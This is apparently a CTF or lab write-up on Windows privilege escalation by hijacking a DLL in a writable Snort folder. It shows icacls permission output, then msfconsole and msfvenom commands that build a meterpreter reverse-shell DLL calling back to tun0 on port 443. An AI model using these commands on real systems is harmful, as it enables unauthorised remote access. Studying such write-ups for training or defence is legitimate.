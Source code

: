 ![](dllhijacking.png)
Convert everything to English
```
bin NT AUTHORITY\System:(I)(OI)(CI)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(F)
    BUILTIN\Users:(I)(OI)(CI)(RX)
    BUILTIN\Users:(I)(CI)(AD)
    BUILTIN\Users:(I)(CI)(WD)
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files

lib/snort_dynamicpreprocessor NT AUTHORITY\System:(I)(OI)(CI)(F)
                              BUILTIN\Administrators:(I)(OI)(CI)(F)
                              BUILTIN\Users:(I)(OI)(CI)(RX)
                              BUILTIN\Users:(I)(CI)(AD)
                              BUILTIN\Users:(I)(CI)(WD)
                              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files

```
We could Write and append to dll in /bin:


We could do this the metasploit way

```bash
msfconsole -x "use /exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST tun0;set LPORT 443;exploit;"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll > evil-wpcap.dll
```



And we could do the Jake Williams-a-like way:

![1920](questioningteaMmate.png)
Sometimes being simple is good, but sometimes being good at being good is good.
![1920](targetdllacquired.png)

Now I just need to grab that .dll and figure out which function is being called, but iredteam seems that just it being called is enough. I think that is wrong:
![](IPHLPAPIwaitingforever.png)
It was in fact correct. 


If this was from a boot and ran then it would have probably worked. The issues is that I needed to check the version and got carried away with what I knew I should do; all i needed to do was reverse the dlls in Ghidra and then write a function name I knew would be called. 

![](rootwithnonmeterpreterpayload.png)
